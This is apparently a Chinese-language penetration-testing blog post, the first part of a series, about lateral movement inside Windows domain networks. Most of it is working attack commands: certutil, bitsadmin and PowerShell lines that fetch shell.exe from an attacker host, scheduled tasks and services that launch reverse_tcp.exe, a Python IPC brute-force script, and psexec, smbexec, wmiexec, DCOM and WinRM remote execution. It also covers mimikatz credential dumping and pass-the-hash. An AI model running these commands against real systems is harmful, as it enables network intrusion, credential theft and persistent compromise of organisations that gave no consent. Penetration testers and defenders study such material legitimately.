



## 内网渗透之横向移动基础总结（一）

- - -

这篇文章介绍内网渗透种的横向移动。

在内网渗透中，当攻击者获取到内网某台机器的控制权后，会以被攻陷的主机为跳板，通过收集域内凭证等各种方法，访问域内其他机器，进一步扩大资产范围。通过此类手段，攻击者最终可能获得域控制器的访问权限，甚至完全控制基于Windows操作系统的整个内网环境，控制域环境下的全部机器。

[](https://storage.tttang.com/media/attachment/2023/05/09/60d71934-7596-466c-8683-54c061df8749.png)

# [横向移动中的文件传输](#toc_)

### [通过文件共享-IPC](#toc_-ipc)

执行net share命令，可以获得Windows默认开启的网络共享，其中C$为C盘共享，ADMIN$为系统目录共享，还有一个IPC$共享。

[](https://storage.tttang.com/media/attachment/2023/05/09/9d3c3d99-df3f-4d5b-ab37-3a0dc15b8cd6.png)

IPC（Internet Process Connection）是共享”命令管道”的资源，为了让进程间通信而开放的命令管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

实战中往往会建立IPC$连接，因为通过IPC$连接，不仅可以进行所有文件共享操作，还可以实现其他远程管理操作，如列出远程主机进程、在远程主机上创建计划任务或服务等。  
**建立IPC$连接需要具备以下两个条件：**

**①远程主机开启了IPC连接**

**②远程主机的139端口和445端口开放**

```plain
# IPC$ 连接
net use \\192.168.1.131\ipc$                    # 建立空连接
net use \\192.168.1.131\ipc$ "password" /user:"Administrator"   # 建立非空连接

# IPC$ 使用
net use                               # 查看本机建立的连接(本机连接其他机器)
net session                           # 查看本机建立的连接(其他机器连接的本机)，需要administrator用户执行
net share                             # 查看本地开启的共享
net share ipc$                        # 开启ipc$共享
net share ipc$ /del                   # 删除ipc$共享
net share admin$ /del                 # 删除admin$共享
net share c$ /del                     # 删除C盘共享
net use * /del                        # 删除所有连接

# IPC$ 连接建立之后的操作
dir \\192.168.1.131\c$                              # 列出目标文件目录
copy C:\\Users\Administrator\Desktop\whatever.exe \\192.168.1.131\c$\aaa # 将文件复制到目标C盘aaa目录下
type \\192.168.1.131\c$\1.txt       # 查看目标C盘下1.txt文件内容
net use h: \\192.168.52.138\c$              # 磁盘映射，将目标的 C 盘映射到本地的 H 盘
net use h: /del                                             # 删除磁盘映射
```

#### [建立 IPC 常见的错误代码](#toc_ipc)

```plain
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限 
51：网络问题，Windows 无法找到网络路径
53：找不到网络路径，可能是 IP 地址错误、目标未开机、目标 Lanmanserver 服务未启动、有 防火墙等问题
67：找不到网络名，本地 Lanmanworkstation 服务未启动，目标删除 ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立 IPC$，需要先删除
1326：账号密码错误
1792：目标 NetLogon 服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
```

#### [建立 IPC 失败的原因](#toc_ipc_1)

（1）目标系统不是 NT 或以上的操作系统

（2）对方没有打开 IPC$共享

（3）对方未开启 139、445 端口，或者被防火墙屏蔽

（4）输出命令、账号密码有错误

### [通过搭建SMB服务器](#toc_smb)

SMB（Server Message Block，服务器消息块），又称CIFS（Common Internet File System，网络文件共享系统），主要功能是使网络上的计算机能够共享计算机文件、打印机、串行端口和通信等资源。SMB消息一般使用NetBIOS协议或TCP发送，分别使用端口139或445，目前倾向于使用445端口。

在linux上，可以通过 [https://github.com/fortra/impacket/blob/master/impacket/smbserver.py](https://github.com/fortra/impacket/blob/master/impacket/smbserver.py) 来搭建smb服务器。

```plain
mkdir /root/smbshare python smbserver.py mysmb /root/smbshare -smb2support
```

### [通过Windows自带工具](#toc_windows)

#### [**Certutil**](#toc_certutil)

Certutil 是Windows自带的命令行工具，用于管理Windows证书并作为证书服务器的一部分安装。Certutil提供了从网络下载文件的功能。

```plain
certutil -urlcache -split -f http://192.168.1.1:8000/shell.exe c:\users\public\shell.exe 
//从192.168.1.1:8000下载shell.exe到本地c:\users\public\目录下
```

#### [**BITSAdmin**](#toc_bitsadmin)

BITSAdmin用于创建、下载和上传作业，监视其进度。Windows7及以后的系统自带BitsAdmin工具。

```plain
bitsadmin /transfer test http://192.168.1.1:8000/1.txt c:\users\mytools\a.txt 
// 创建一个名为test的bitsadmin任务，从192.168.1.1:8000下载1.txt,保存为c:\users\mytools\a.txt
```

#### [**powershell**](#toc_powershell)

通过创建WebClient对象来实现文件下载

```plain
(New-Object Net.WebClient).DownloadFile("http://192.168.1.1:8000/shell.exe", "c:\users\public\shell.exe") 
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.1.1:8000/shell.exe','c:\users\public\shell.exe')"
```

# [at & schtasks & sc横向](#toc_at-schtasks-sc)

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？

使用 at&schtasks 命令，创建计划任务，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。

**获取到某域主机权限->minikatz 得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典->尝试连接->创建计划任务(at|schtasks)->执行文件可为后门或者相关命令**

### [利用流程](#toc__1)

\\1. 建立 IPC 链接到目标主机

\\2. 拷贝要执行的命令脚本到目标主机

\\3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本

\\4. 删除 IPC 链接

ps: **Windows Server 2012 以后的版本没有at命令，只有schtasks命令**

### [at（计划任务）](#toc_at)

利用过程如下：

```plain
net time \\192.168.1.131
# 查看时间
at \\192.168.1.131 10:30 cmd.exe /c "whoami > c:\result.txt"
# 结果输出到 result 下
type \\192.168.1.131\c$\result.txt
# 查看执行结果
at \\192.168.1.131 1 /delete
# 删除计划任务，1是任务号
copy hack.bat \\192.168.1.131\c$\Windows\Temp
# 上传 bat 脚本
net time \\192.168.1.131                                                        
# 查看时间
at \\192.168.1.131 19:48 c:\Windows\Temp\hack.bat
# 创建定时任务，执行木马脚本
at \\192.168.1.131                                                              
# 查看任务列表
```

### [schtasks（计划任务）](#toc_schtasks)

操作步骤：

1.  利用已建立的IPC连接上传后门程序
2.  利用已建立的IPC连接或指定用户凭据的方式在远程主机上创建计划任务shell

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F # /S 指定要连接的系统； /TN 指定计划任务的名称 # /SC 指定计划任务执行频率；  /MO 指定计划任务执行周期 # /TR 指定计划任务执行程序；  /RU 指定计划任务运行的用户权限 # /F  如果指定的任务已存在，则强制创建
```

如果没有建立IPC连接，则需要指定远程主机的用户凭据

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F /U Administrator /P 123qwe@
```

-   创建完成后，可以等待计划任务自行执行，也可以立即启动计划任务shell

```plain
schtasks /RUN /S 192.168.1.131 /I /TN Backdoor
```

-   查看计划任务shell

```plain
schtasks /query /S 192.168.1.131 /TN Backdoor
```

-   删除计划任务shell

```plain
schtasks /Delete /S 192.168.1.131 /TN Backdoor /F
```

也可以通过计划任务执行系统命令，将执行结果写入文件，然后使用type命令查看文件

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR "c:\windows\system32\cmd.exe /c 'whoami' > c:\users\public\result.txt" /RN System /F


type \\192.168.1.131\C$\users\public\result.txt
copy C:\Users\Administrator\Desktop\hack.bat \\192.168.1.131\c$\Windows\Temp

schtasks /create /tn hack /tr C:\Windows\Temp\hack.bat /sc ONSTART /s 192.168.1.131 /ru "system" /u administrator /p 123qwe@

schtasks /run /tn hackk /s 192.168.1.131

type \\192.168.1.131\c$\Windows\Temp\result.txt

schtasks /delete /s 192.168.1.131 /u administrator /p 123qwe@ /tn hackk /f
```

**注意：在使用schtasks命令时，会在系统中留下日志文件C:\\Windows\\Tasks\\SchedLgU.txt。**

### [UNC路径加载执行](#toc_unc)

Windows系统使用UNC路径来访问网络共享资源，格式为

```plain
\\servername\sharename\directory\filename # servername 服务器； sharename 网络共享名字
```

攻击载荷在远程主机上时，可以直接使用UNC路径代替常规的本地路径，让目标主机直接在测试人员搭建的Smb共享中加载攻击载荷并执行。这样可以省去手动上传载荷的步骤。

例如：

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR \\192.168.1.1\mysmb\reverse_tcp.exe /RN System /F
```

### [sc（系统服务）](#toc_sc)

创建远程服务需要拥有**两端主机的管理员权限（要创建服务）**和IPC连接，具体操作：

1.  利用已建立的共享连接向远程主机上传攻击载荷reverse\_tcp.exe
2.  利用已建立的IPC连接在远程主机上创建系统服务shell

```plain
sc \\192.168.1.131 create Backdoor binpath= "cmd.exe /k c:\users\public\reverse_tcp.exe"
# binpath的等号后面需要有一个空格
```

-   删除服务shell

```plain
sc \\192.168.1.131 delete Backdoor
```

### [批量利用脚本、工具进行爆破连接](#toc__2)

```plain
#批量检测 IP 对应明文连接
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator

#批量检测 IP 对应明文 回显版
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami

#批量检测明文对应 IP 回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.1.131 whoami

# 批量检测 HASH 对应 IP 回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.1.131 whoami
```

前期除了收集明文密码HASH等，还收集了用户名，用户名配合密码字典,用python打包成.exe可执行文件

```plain
pip install pyinstaller
pyinstaller -F fuck_neiwang_001.py
import os,time
ips = {

}
# net user /domain
users = {
    'Administrator',
    '7BOB',
    'uf9n1x'
    'webserver-2008'

}
passs = {

}

for ip in ips:
    for user in users:
        for mima in passs:
            exec = "net use \\" + ip + '\ipc$' + mima + ' /user:god\\' + user
            print('--->' + exec + '<---')
            os.system(exec)
            time.sleep(1)
```

[](https://storage.tttang.com/media/attachment/2023/05/09/653b3593-d5d7-42e1-aed6-f30a98025ef0.png)

# [SMB协议利用](#toc_smb_1)

## [psexec](#toc_psexec)

psExec是微软官方提供的一个Windows远程控制工具，可以根据凭据在远程系统上执行管理操作，并且可以获得与命令行几乎相同的实时交互性。该工具在MSF框架中也有集成。

psexec 是 windows 下非常好的一款远程命令行工具。psexec的使用不需要对方主机开方3389端口，只需要对方开启admin$共享 (该共享默认开启)。但是，假如目标主机开启了防火墙，psexec也是不能使用的，会提示找不到网络路径。由于PsExec是Windows提供的工具，所以杀毒软件将其列在白名单中。

**PsExec的基本原理**：

-   通过ipc$连接，释放二进制文件psexecsvc.exe到目标
-   通过服务管理SCManager远程创建一个psexec服务，并启动服务
-   客户端连接执行命令，服务端通过服务启动相应的程序执行命令并回显数据
-   运行结束后删除服务

**psexec的使用前提：**

-   对方主机开启了 admin$ 共享，如果关闭了admin$共享，会提示：找不到网络名
-   对方未开启防火墙或放行445端口
-   如果是工作组环境，则必须使用administrator用户连接（因为要在目标主机上面创建并启动服务），使用其他账号(包括管理员组中的非administrator用户)登录都会提示访问拒绝访问。
-   如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。连接普通域主机可以用普通域用户，连接域控只能用域管理员账户。

用法：

```plain
psexec.exe -accepteula \\192.168.1.131 -u Administrator -p 123qwe@ -s cmd.exe 
# -accepteula 禁止弹出许可证对话框 
# -s 以SYSTEM权限启动进程
```

如果已经建立IPC连接，那么可以直接使用psexec连接远程主机

```plain
psexec.exe -accepteula \\192.168.1.131 -s cmd.exe
```

或者不提取shell，直接用目标系统的cmd.exe的/c选项在目标主机上执行命令，并得到回显（与前面的at命令相似）

```plain
PsExec.exe \\192.168.1.131 <Command>
PsExec.exe \\192.168.1.131 cmd.exe /c "ipconfig"
PsExec.exe \\192.168.1.131 -u Administrator -p 123qwe@ cmd.exe /c "ipconfig"
```

## [smbexec](#toc_smbexec)

**无需先 ipc 链接**， 明文或 hash 传递（第三方库）

```plain
smbexec uf9n1x/administrator:123qwe@@192.168.1.131
smbexec ./administrator:123qwe@@192.168.1.131
smbexec -hashes :$HASH$ ./admin@192.168.1.131
smbbexec -hashes :$HASH$ domain/admin@192.168.1.131
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131
smbexec -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131
```

# [远程桌面调用](#toc__3)

远程桌面协议（Remote Desktop Protocol，RDP）

查询注册表确定是否主机开启了远程桌面

```plain
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections 
# 若字段值为0，则表示已启动RDP；若为1，则表示禁用RDP
```

开启远程桌面

```plain
# 开启远程桌面 
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 
# 关闭“仅允许运行使用网络级别身份验证的远程桌面的计算机连接”（鉴权） 
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0  
# 设置防火墙策略放行3389端口 
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

对于远程主机，可以通过WMI来开启远程桌面功能

```plain
wmic /Node:192.168.1.131 /User:uf9n1x\Administrator /Password:123qwe@ RDTOGGLE WHRER ServerName='win2008' call SetAllowTSConnections 1
```

## [RDP Hijack](#toc_rdp-hijack)

Windows系统下，**tscon**可被用来切换远程桌面的会话。正常情况下，切换会话时需要提供登录密码，但通过特殊的利用方法能够绕过验证，不输入密码实现未授权登录。

可以通过**query user**来列出所有登录的用户列表，得到id

在SYSTEM权限下，使用**tscon <ID>**来切换用户不需要验证密码。

## [sharp RDP](#toc_sharp-rdp)

[https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)

sharp rdp可以通过远程桌面协议在远程主机上执行系统命令，且不需要GUI客户端。

工具需要远程主机开启远程桌面功能，且防火墙放行3389端口

# [WMI的利用](#toc_wmi)

WMI（Windows Management Instrumentation，Windows管理规范）时一项核心的Windows管理技术。用户可以通过WMI管理本地和远程主机。

Windows为传输WMI数据提供了两个可用的协议：分布式组件对象模型（Distributed Component Object Model, DCOM）和Windows远程管理（Window Remote Management，WinRM）使得WMI对象的查询、事件注册、WMI类方法的执行和类的创建等操作都能远程运行。

在横向移动时，可以利用WMI提供的管理功能，通过以获取的用户凭据，与本地或远程主机进行交互，并控制其执行各种行为。目前两种常见的利用方法：  
**1、 通过调用WMI的类方法进行远程调用，如Win32\_Process类中的Create方法可以在远程主机上创建进程，Win32\_Product类的Install方法可以在远程主机上安装恶意的MSI  
****2、 远程部署WMI事件订阅，在特定事件发生时触发**

利用WMI进行横向移动需要具备以下条件：  
**1、远程主机的WMI服务为开启状态（默认开启）  
****2、远程主机防火墙放行135端口，这是WMI管理的默认端口**

### [常规利用方法](#toc__4)

在windows上可以通过wmic.exe和powershell cmelet来使用wmi数据和执行WMI方法。  
wmic.exe是一个与WMI进行交互的命令行工具，拥有大量的WMI对象的默认别名，可以执行许多复杂的查询。powershell也提供了许多可以与WMI进行交互的cmelet，如Invoke-WmiMethod、Set-WmiInstance等

**执行远程查询**

通过WMI查询远程主机上运行的进程信息

```plain
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ process list brief # /node 执行远程主机的地址
```

**创建远程进程**  
通过调用Win32\_Process.Create方法在远程主机上创建进程，启动CMD来执行命令

由于WMIC在执行命令时没有回显，因此可以将执行结果写入文件，然后通过别的方式读取文件

```plain
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ process call create "cmd.exe /c ipconfig > C:\result.txt"
```

**远程安装MSI文件**  
通过调用Win32\_Product.Install方法，可以控制远程主机安装恶意MSI文件，从而获得权限

```plain
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ product call install PackageLocation="\\192.168.1.1\mysmb\reverse_tcp.msi"
```

### [常见利用工具](#toc__5)

#### [套件impacket-**WmiExec**](#toc_impacket-wmiexec)

Impacket项目的Wmiexec.py能够以全交互或半交互的方式，通过WMI在远程主机上执行命令。该工机需要远程主机开启135和445端口，其中445端口用于传输命令执行的回显。

```plain
python wmiexec.py uf9n1x/Administrator:123qwe@@192.168.1.131 

wmiexec.exe ./administrator:123qwe@@192.168.1.131 "whoami" 
wmiexec.exe god/administrator:Admin12345@192.168.1.131 "whoami" 
wmiexec.exe -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131 "whoami" 
wmiexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131 "whoami"
```

#### [自带 cscript 明文传递 有回显](#toc_cscript)

```plain
cscript //nologo wmiexec.vbs /shell 192.168.1.131 administrator 123qwe@
```

#### [自带 WMIC 明文传递 无回显](#toc_wmic)

```plain
wmic /node:192.168.1.131 /user:administrator /password:123qwe@ process call create "cmd.exe /c ipconfig >C:\1.txt"
```

### [WMI事件订阅的利用](#toc_wmi_1)

WMI提供了强大的事件处理系统，几乎可以用于操作系统上发生的任何事件做出相应。

当创建某进程时，通过WMI事件订阅器来执行预先设置的脚本。  
其中触发事件的具体条件被称为“**事件过滤器**”（Event Filter），如用户登录、新进程创建等；对指定事件发生做出相应的称为“**事件消费者**”（Event Consumer），包括一系列具体的操作，如运行脚本、记录日志、发送邮件等。  
在部署事件订阅时，需要分别构建Filter和Consumer两部分，并将两者绑定在一起。

所有的事件过滤器都被存储在一个**Root\\subscription:\_\_EventFiilter**对象的实例，可以通过创建**\_\_EventFilter对象**实例来部署事件过滤器。事件消费者是基于**ROOT\\subscription:\_\_EventConsumer系统类**派生来的类。

系统提供了常用的标准事件消费类

```plain
LogFileEventConsumer    # 将事件数据写入指定的日志文件 
ActiveScriptEventConsumer  # 执行嵌入的VBScript或JavaScript 
NTEventLogEventConsumer      # 创建一个包含事件数据的事件日志条目 
SMTPEventConsumer            # 发送一封包含事件数据的电子邮件 
CommandLineEventConsumer     # 执行指定的系统命令
```

**Sharp-WMIEvent**

[https://github.com/wh0Nsq/Sharp-WMIEvent](https://github.com/wh0Nsq/Sharp-WMIEvent)

在远程主机上部署一个随即命名的永久事件订阅，并每隔60s执行以此SMB共享中的攻击载荷

```plain
Sharp-WMIEvent -Trigger Interval -IntervalPeriod 60 -ComputerName 192.168.1.131 -Domain uf9n1x.com -Username Administrator -Password 123qwe@
```

# [DCOM的利用](#toc_dcom)

COM（Component Object Model，组件对象模型）是微软的一套软件组成的二进制接口标准，使得跨编程语言的进程间通信、动态对象创建成为可能。COM指定了一个对象模型和编程要求，使COM对象能够与其他对象交互。这些对象可以在单个进程中，也可以在其它进程中，甚至可以在远程计算机中。在Windows中，每个COM对象都由唯一的128位的二进制标识符标识，即GUID。

DCOM（Distracted Component Model，分布式组件对象模型）是基于COM的一系列概念和程序接口，支持不同机器上的组件间通信。利用DCOM，客户端程序对象可以请求来自网络中另一台计算机上的服务器程序对象。

部分DCOM组件公开的接口中可能包含不安全的方法。执行以下命令，可以列出计算机上所有的DCOM程序组件

```plain
Get-CimInstance Win32_DCOMApplication
```

目前常利用的DCOM组件有：MMC20.Application、ShellWindows、Excel.Application、ShellBrowserWindow等。

使用DCOM在远程主机上面执行命令，需要具有以下条件：

-   **具有管理员权限的PowerShell**
-   **可能需要关闭目标系统的防火墙。**
-   **在远程主机上执行命令时，必须使用域管的administrator账户或者目标主机具有管理员权限的账户**

## [MMC20.Application](#toc_mmc20application)

MMC20.Application对象的Document.ActiveView下存在一个ExecuteShellCommand方法，可以用来启动子进程并运行执行的程序或系统命令。

```plain
# 通过progID与DCOM进行远程交互，并创建MMC20.Application对象的示例 
$com =[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131")) 

# 调用ExecuteShellCommand方法启动进程，运行攻击载荷 $com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized") 

# 合并一句话 [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized")
```

## [ShellWindows](#toc_shellwindows)

ShellWindows组件提供了Document.Application.ShellExecute方法，适用于Windows7及以上的系统。

```plain
# 通过PowerShell与DCOM进行远程交互，创建ShellWindows对象的实例: 
$com=[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1 .131")) 

# 然后执行如下命令，我们就可以调用该对象的"ShellExecute"方法在远程主机上启动进程: $com.item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0) 

# 完整的命令: 
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1.131")).item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0)
```

### [Excel.Application](#toc_excelapplication)

```plain
# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例: 
$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.1.131")) 
$com.DisplayAlerts = $false 

# 然后执行如下命令，我们就可以调用该对象的"DDEInitiate"方法在远程主机上启动进程: $com.DDEInitiate("cmd.exe","/c C:\shell.exe")
```

### [ShellBrowserWindow](#toc_shellbrowserwindow)

使用条件：适用于**Windows 10和Windows Server 2012 R2**等版本的系统。

```plain
# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例: 
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131")) 

# 然后执行如下命令，我们就可以调用该对象的"shellExecute"方法在远程主机上启动进程: $com.Document.Application.shellExecute("C:\shell.exe") 

# 完整的命令: 
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131")).Document.Application.shellExecute("C:\shell.exe")
```

### [Impacket里的dcomexec.py脚本](#toc_impacketdcomexecpy)

Impacket 里面提供的 dcomexec.py 脚本可以提供一个类似于 wmiexec.py 脚本的半交互式shell，但使用的是DCOM，目前支持MMC20.Application，ShellWindows和ShellBrowserWindow对象。

命令格式如下：

```plain
./dcomexec.py domain/username:password@ip 
./dcomexec.py domain/username:password@ip <command>
```

# [WinRM的利用](#toc_winrm)

WinRM是通过执行WS-Management协议（用于远程软件和硬件管理的Web服务协议）来实现远程管理的，允许处于一个共同网络内的Windows计算机彼此之间互相访问和交换信息，对应的端口是5985。在一台计算机启用WinRM服务后，防火墙会自动放行其相关通信端口，在另一台计算机便能通过WinRM对其进行远程管理了。

**只有在Windows Server 2008以上版本的服务器中，WinRm服务才会自动启动。**

**在利用WinRM进行横向移动时，需要拥有远程主机的****管理员凭据信息****。**

## [通过WinRM执行远程命令](#toc_winrm_1)

Windows远程管理提供了两个工具：  
① Winrs，允许远程执行命令的命令行工具，利用了WS-Manage协议  
② Winrm（Winrm.cmd)，内置系统管理命令行工具，允许管理员配置本机的WinRM服务。

在默认情况下，无法通过WinRM连接到目标系统。可能出现错误：Winrs error：WinRM客户端无法处理该请求。可以将默认身份验证与IP地址结合使用：  
① 传输为HTTPS或目标位于TrustedHosts列表中，并且提供显式凭据  
② 使用Winrm.cmd配置TrustedHosts。

执行以下命令，将目标地址添加到TrustedHosts中：

```plain
winrm set winrm/config/client @{TrustedHosts="192.168.1.1"} 

set-Item WSMan:localhost\client\trustedhosts -value *    
# 通过powershell，信任所有主机
```

## [Winrs](#toc_winrs)

winrs是Windows上远程管理提供的客户端程序，允许通过提供的用户凭据，在运行WinRM的服务器上执行命令。要求通信双方都安装了WinRM服务。

```plain
# 执行系统命令 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "whoami" 
# 获取远程交互式命令行 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "cmd"
```

## [**Winrm.cmd**](#toc_winrmcmd)

winrm.cmd允许WMI对象通过WinRm传输进行远程交互，在本地或远程计算机上枚举WMI对象实例或调用WMI类方法。比如可以通过调用Win32\_Process类的Create方法来创建远程实例。

```plain
winrm invoke create wmicimv2/win32_process -SkipCAcheck -skipCNcheck @{commandline="notepad.exe"} -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@
```

## [Evil-Winrm](#toc_evil-winrm)

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

# [PTH&PTK&PTT（hash、key、ticket传递）](#toc_pthptkptthashkeyticket)

```plain
PTH(pass the hash)   #利用 LM 或 NTLM 的值进行的渗透测试
PTT(pass the ticket)  #利用的票据凭证 TGT 进行的渗透测试
PTK(pass the key)   #利用的 ekeys aes256 进行的渗透测试
```

**PTH和PTK**

PTH 在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过 LM Hash 和 NTLM Hash 访问远程主机或服务，而不用提供明文密码。

**如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功**。对于 8.1/2012r2，安装补丁 **kb2871997** 的 Win 7/2008r2/8/2012 等，可以使用 AES keys 代替 NT hash 来实现 ptk 攻击

```plain
# mimikatz
privilege::debug      
# NTLM
sekurlsa::logonPasswords     
# AES
sekurlsa::ekeys
```

**总结：KB2871997 补丁后的影响**

[https://www.freebuf.com/column/220740.html](https://www.freebuf.com/column/220740.html)

**PTH：打补丁前任意用户都可以连接，打了补丁后只能 administrator 用户才可以连接**

**PTK：打补丁前不能连接，打补丁后才能任意用户都可以连接（采用 aes256 连接）**

[](https://storage.tttang.com/media/attachment/2023/05/09/d8ba59d2-557c-4c35-bbf9-7cdd80593836.png)

**PTT-票据传递**

PTT 攻击的部分就不是简单的 NTLM 认证了，它是利用 Kerberos 协议进行攻击的，三种常见的攻击方法：

MS14-068，Golden ticket，SILVER ticket。简单来说就是将连接合法的票据注入到内存中实现连接。

Golden ticket(黄金票据)，SILVER ticket(白银票据)属于权限维持技术

MS14-068 基于漏洞，造成的危害是允许域内任何一个普通用户，将自己提升至域管权限。微软给出的补丁是 kb3011780

## [PTH](#toc_pth)

### [**利用Mimikatz进行PTH**](#toc_mimikatzpth)

Mimikatz内置了哈希传递的功能，需要本地管理员权限。

① 抓取用户的哈希

```plain
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

② 利用抓取的域管理员的NTLM hash进行哈希传递

```plain
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:uf9n1x.com /ntlm:93b95aef15f4d50fab96ffc44a2f326a" exit
```

### [**利用impacket进行PTH**](#toc_impacketpth)

Impacket项目中具有远程执行功能的几个脚本几乎都可以进行哈希传递攻击，常见的有：

```plain
psexec.py      # 类似PSEXEC的功能示例，使用remcomsvc（https://github.com/kavika13/remcom） smbexec.py     # 与使用remcomsvc的psexec w/o类似的方法。这里描述了该技术。我们的实现更进一步，                    #实例化本地smbserver以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。 python3 smbexec.py -hashes :3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
               #-hashes 指定用户完整的哈希，如果LM哈希被废弃，就将其指定为0或者空 

atexec.py      # 此示例通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。

wmiexec.py     # 需要开放139和445端口，通过Windows Management Instrumentation使用的半交互式shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。

python wmiexec.py -hashes 00000000000000000000000000000:3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
